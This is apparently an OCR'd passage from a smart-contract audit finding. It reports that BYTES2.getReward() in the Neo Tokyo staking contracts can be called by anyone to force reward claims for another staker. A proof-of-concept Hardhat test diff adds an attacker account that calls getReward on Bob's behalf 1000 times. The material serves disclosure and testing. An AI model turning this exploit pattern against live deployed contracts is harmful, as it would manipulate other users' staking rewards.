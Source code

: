However, `BYTES2.getReward()` can be directly called by anyone for any staker to force a claim:

```diff
diff --git a/test/NeoTokyoStaker.test.js b/test/NeoTokyoStaker.test.js
index 231f47d..5fded43 100644
--- a/test/NeoTokyoStaker.test.js
+++ b/test/NeoTokyoStaker.test.js
@@ -24,7 +24,7 @@ describe('Testing BYTES 2.0 & Neo Tokyo Staker', function () {
        let currentTime, snapshotId;
 
        // Prepare several testing callers.
-       let owner, alice, bob, nonCitizen, whale, treasury;
+       let owner, alice, bob, nonCitizen, whale, treasury, attacker;
 
        // Neo Tokyo S1 contract instances.
        let beckLoot, NTItems, NTLandDeploy, vaultBox, NTCitizenDeploy, NTOldBytes;
@@ -76,6 +76,11 @@ describe('Testing BYTES 2.0 & Neo Tokyo Staker', function () {
                        signer: signers[5],
                        address: addresses[5]
                };
+               attacker = {
+                       provider: signers[6].provider,
+                       signer: signers[6],
+                       address: addresses[6]
+               };
 
                // Prepare all of the Neo Tokyo S1, S2, and new contracts for testing.
                [
@@ -558,7 +563,7 @@ describe('Testing BYTES 2.0 & Neo Tokyo Staker', function () {
                });
 
                // Simulate a competitive staking scenario between Alice and Bob.
-               it('a comprehensive happy-path test', async function () {
+               it.only('a comprehensive happy-path test', async function () {
 
                        // Bob stakes his S1 Citizen.
                        await NTStaking.connect(bob.signer).stake(
@@ -654,6 +659,16 @@ describe('Testing BYTES 2.0 & Neo Tokyo Staker', function () {
                        let bobBalanceInitial = await NTBytes2_0.balanceOf(bob.address);
                        let aliceBalanceInitial = await NTBytes2_0.balanceOf(alice.address);
 
+                       // Simulate an attacker directly calling NTBytes2_0's getReward() with Bob's address after just 1h. The attacker is calling 1000 times here
+                       console.log("attacker call start");
+                       await ethers.provider.send('evm_setNextBlockTimestamp', [
+                               bobStakeTime + (60 * 60 * 1)
+                       ]);
+                       for (let i = 0; i < 1000; ++i) {
+                               await NTBytes2_0.connect(attacker.signer).getReward(bob.address);
+                         }
+                       console.log("attacker call end");
+```
```
